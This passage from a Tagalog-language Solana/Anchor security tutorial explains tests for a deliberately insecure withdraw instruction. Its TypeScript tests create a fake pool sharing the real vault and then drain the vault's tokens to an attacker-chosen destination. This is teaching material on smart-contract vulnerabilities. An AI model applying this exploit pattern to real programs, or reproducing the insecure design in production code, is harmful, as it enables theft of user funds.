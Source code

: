 ### 2. Test `withdraw_insecure` instruction

Kasama sa test file ang code para ma-invoke ang `initialize_pool` na pagtuturo at pagkatapos ay mag-mint ng 100 token sa `vault` token account. Kasama rin dito ang pagsubok para i-invoke ang `withdraw_insecure` gamit ang nilalayong `withdraw_destination`. Ipinapakita nito na ang mga tagubilin ay maaaring gamitin ayon sa nilalayon.

Pagkatapos nito, may dalawa pang pagsubok upang ipakita kung paano madaling pagsamantalahan ang mga tagubilin.

Invokes ng unang pagsubok ang tagubiling `initialize_pool` na gumawa ng "pekeng" `pool` account gamit ang parehong token account ng `vault`, ngunit ibang `withdraw_destination`.

Ang pangalawang pagsubok ay aalis mula sa pool na ito, pagnanakaw ng mga pondo mula sa vault.

```tsx
it("Insecure initialize allows pool to be initialized with wrong vault", async () => {
    await program.methods
      .initializePool(authInsecureBump)
      .accounts({
        pool: poolInsecureFake.publicKey,
        mint: mint,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        payer: walletFake.publicKey,
      })
      .signers([walletFake, poolInsecureFake])
      .rpc()

    await new Promise((x) => setTimeout(x, 1000))

    await spl.mintTo(
      connection,
      wallet.payer,
      mint,
      vaultInsecure.address,
      wallet.payer,
      100
    )

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(100)
})

it("Insecure withdraw allows stealing from vault", async () => {
    await program.methods
      .withdrawInsecure()
      .accounts({
        pool: poolInsecureFake.publicKey,
        vault: vaultInsecure.address,
        withdrawDestination: withdrawDestinationFake,
        authority: authInsecure,
        signer: walletFake.publicKey,
      })
      .signers([walletFake])
      .rpc()

    const account = await spl.getAccount(connection, vaultInsecure.address)
    expect(Number(account.amount)).to.equal(0)
})
```
